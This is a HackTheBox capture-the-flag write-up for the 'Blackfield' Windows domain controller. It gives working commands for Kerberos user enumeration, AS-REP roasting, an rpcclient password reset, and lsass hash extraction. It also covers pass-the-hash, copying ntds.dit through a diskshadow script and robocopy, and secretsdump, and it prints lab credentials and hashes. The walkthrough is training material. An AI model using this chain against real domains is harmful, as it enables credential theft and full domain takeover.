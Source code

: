 ```yaml
---
title: Blackfield Writeup [HTB]
tags: [HackTheBox, Active Directory, AS-REP Roasting]
image: /assets/images/blackfield/blackfield.png
published: true
banner: true
---
```


Blackfield is a Windows based machine that was active since June 06 of 2020 to October 03, we will start this machine making a list of posible users according to a windows share, then we will get some valid users enumerating kerberos with nmap and metasploit, after that we will get a TGS using kerberoasting and cracking it, with those credentials we will connect using rpcclient and reset the password of an account called "audit2020", with that account we will access to a share that contains a lsass dump, we will download it and using pypykatz we will dump some NT hashes, we will access to the machine performing a pass the hash with the account "svc_backup", that account can create a shadowcopy of the system, so we will use that with robocopy to get a copy of the ntds.dit file and get the hashes of the domain.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.192
nmap -Pn -sC -sV -p 88,5985,389,593,445,135,3268,53 -o scan.txt 10.10.10.192

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-13 05:26:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that we are facing a Windows domain controller, we tried to enumerate the domain with `ldapsearch`, but we need credentials to be able to request ldap information, we just got what nmap told us, that the domain is "BLACKFIELD.local", since doesn't seem like we will get something out from ldap we went to the next "juicy" service, windows shares, using crackmapexec we saw some shares: `cme smb 10.10.10.192 -u "Guest" -p "" --shares`

![](/assets/images/blackfield/cme.png)

We can read "profiles$", so we use smbmap to list every file and folder inside of it: `smbmap -u "Guest" -H 10.10.10.192 -R profiles$`

![](/assets/images/blackfield/smbmaphead.png)

## [](#header-2)AS-REP Roasting

Since there is a lot of folders the command takes a while to finish, but we don't see any file just a bunch of folders, but if we put atention we notice that those folders also look like usernames, so we copy the output, and filter it in order to get a list of users that we will call "users.txt". I like to validate users using nmap and metasploit, if we use nmap we find two users, to make the scan with nmap we use the next command: `nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='BLACKFIELD.local',userdb=users.txt" 10.10.10.192 -Pn`

![](/assets/images/blackfield/nmapkrb.png)

It is always important to remember that the tools are not perfect, so having more than one in our bag can save us, so we throw metasploit module "kerberos_enumusers" with the same wordlist, here something weird happens, we get an error.

![](/assets/images/blackfield/msferror.png)

I saw the same error on my [Saunas's writeup](https://medium.com/@5ubterranean/htb-sauna-write-up-espa%C3%B1ol-67d4d0eff1c6) (notice that it is written in Spanish, and there I made a huge mistake saying that we used Kerberoasting when it was AS-REP Roast), and that is a sign that we can use AS-REP Roast against that account, if we  remove "support" from the worlist msf finds the same users as nmap. Well since we found a suspicious account we will use "GetnNPUsers" from impacket, so we use the next command without supplying a password to get a TGT that can be cracked with john: `python3 GetNPUsers.py BLACKFIELD.local/support: -dc-ip 10.10.10.192 -format john`

![](/assets/images/blackfield/krbtgt.png)

We save the hash as "tgthash" and crack it with john, and we get that the password is "#00^BlackKnight".

![](/assets/images/blackfield/johntgt.png)

# [](#header-1)Gaining Access

Now that we have some credentials we can login through rpcclient, enumerate the users with `enumdomusers` and get another username, "audit2020".

![](/assets/images/blackfield/rpcclient.png)

Well without a password that's not very useful, but we are using an account called "support", a common function of technical support people is to restore passwords, so maybe there is a way of doing that with rpcclient, after going throught a lot of google pages we found this [blog](https://malicious.link/post/2017/reset-ad-user-password-with-linux/), where it's shown how to do that, so we can use the support account to set a password to audit2020 account, to do that we use the command `setuserinfo audit2020 23 "5ubterraneaN"`. Once we have set a new password for audit2020 we check with crackmapexec which new access we have.

![](/assets/images/blackfield/cmeaudit.png)

Well now we have access to "forensics" folder, by its name we can guess that we might find a SAM dump or some kind of sensitive file dumped from memory, since we are in an enviroment where there is a lot of people trying to solve the same box the password of audit2020 can be changed at any time, so in order to avoid that we mount the share, we create a share folder and execute `sudo mount -t cifs -o user=audit2020 \\\\10.10.10.192\\forensic share`. Once the folder is mounted we check their contents and see a "memory_analysis" folder, and inside of it we find a dump of "lsass" just as we thought.

![](/assets/images/blackfield/forensic.png)

We could go to a windows machine and use mimikatz on it, but there is better way, [pypykatz](https://github.com/skelsec/pypykatz), once we have pypykatz installed we can run: `pypykatz lsa minidump lsass.DMP`, we don't get any password, but we find some NT hashes which we can use to access to the machine performing pass the hash, on this case we are interested on svc_backup user.

![](/assets/images/blackfield/forensic.png)

With that we can use evil-winrm to get access to the machine and recover "user.txt".

![](/assets/images/blackfield/shell1.png)

# [](#header-1)Privilege Escalation

We use `whoami /all` to retrieve our persmissions on the machine and we see an interesting group, "backup operators".

![](/assets/images/blackfield/whoami.png)

If we google around there are some blogs of how to use this group to dump the ntds.dit file, on this case we use the diskshadow part of this [blog](https://pentestlab.blog/tag/ntds-dit/), but it doesn't mention [robocopy](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) which will be fundamental in our case, first we create a file called "ds.txt" with the next content:
```
set context persistent nowriters 
set metadata C:\Users\svc_backup\Links\empty\metadata.cab 
add volume c: alias someAlias 
create 
expose %someAlias% j: 
exec "cmd.exe" /c copy j:\windows\ntds\ntds.dit c:\Users\svc_backup\Links\empty\ntds.dit 
delete shadows volume %someAlias% 
reset
```
Something strange that happens is that when we execute the command to create the shadow copy it won't read the last character of every line on the file, so we must leave a blankspace at the end of every line of "ds.txt", then we upload the file, if the file is located where we launched evil-winrm uploading it is as simple as writing `upload ds.txt`, then we run `diskshadow /s C:\Users\svc_backup\Links\empty\ds.txt` (notice we are using the absolute path where the file is located). On the examples found online this is enough to get the ntds.dit file, but this time it doesn't work, that is beacuse the copy operaction has to be performend with the backup operators group permissions, and copy doesn't use them, so we have to use robocopy: `robocopy j:\windows\ntds\ ntds.dit ntds.dit /b`, after that we will find the file in the directory ntds.dit.

![](/assets/images/blackfield/ntds.png)

One more time getting the file is as easy as writing `download ntds.dit\ntds.dit` thanks to evil-winrm. We will also need the "system" file so we repeat the previous steps but with it, once we have both files we can use secretsdump to get all the hashes inside ntds.dit and save them to a file, to do that we run: `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -ntds ntds.dit -system system LOCAL > hashes`. Now we can use evil-winrm as Administrator with his hash to finish the machine: `evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee`.

![](/assets/images/blackfield/root.png)

If we wanted we could have used psexec to get a shell as authority system, but there is no need for that.